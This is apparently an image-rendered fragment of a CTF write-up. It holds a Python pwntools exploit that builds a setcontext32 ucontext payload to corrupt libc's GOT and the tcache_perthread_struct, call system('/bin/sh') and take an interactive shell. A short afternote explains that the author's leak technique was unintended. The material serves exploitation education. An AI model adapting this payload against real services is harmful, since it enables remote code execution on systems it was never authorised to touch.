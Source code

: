 ```python
    b[0x70:0x78] = p64(rsi)
    b[0x68:0x70] = p64(rdi)
    b[0x98:0xA0] = p64(rcx)
    b[0x28:0x30] = p64(r8)
    b[0x30:0x38] = p64(r9)
    b[0x88:0x90] = p64(rdx)

    return b

def setcontext32(libc: ELF, **kwargs) -> (int, bytes):
    got = libc.address + libc.dynamic_value_by_tag("DT_PLTGOT")
    plt_trampoline = libc.address + libc.get_section_by_name(".plt").header.sh_addr
    return got, flat(
        p64(0),
        p64(got + 0x218),
        p64(libc.symbols["setcontext"] + 32),
        p64(plt_trampoline) * 0x40,
        create_ucontext(got + 0x218, rsp=libc.symbols["environ"] + 8, **kwargs),
    )

dest, pl = setcontext32(
             libc, rip=libc.sym["system"], rdi=libc.search(b"/bin/sh").__next__()
           )

def send_raw(content, sz, end=True) :
    sock.recvuntil(b"PKT_RES")
    sock.send(p64(sz))
    payload = content
    sock.sendline(payload)

payload = b"a"*(8*6)
payload += p64(dest)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)
send_echo(payload, 0x50) # new tcache_perthread_struct

send_raw(pl[8:], 0)

conn.interactive()
```

afternote: this solution was a bit unintended, I found out later; the intended solution does not use the house of orange to get a leak. Instead, it uses partial overwrites to control tcache before getting a leak. This made the challenge a bit easier than it was supposed to be.
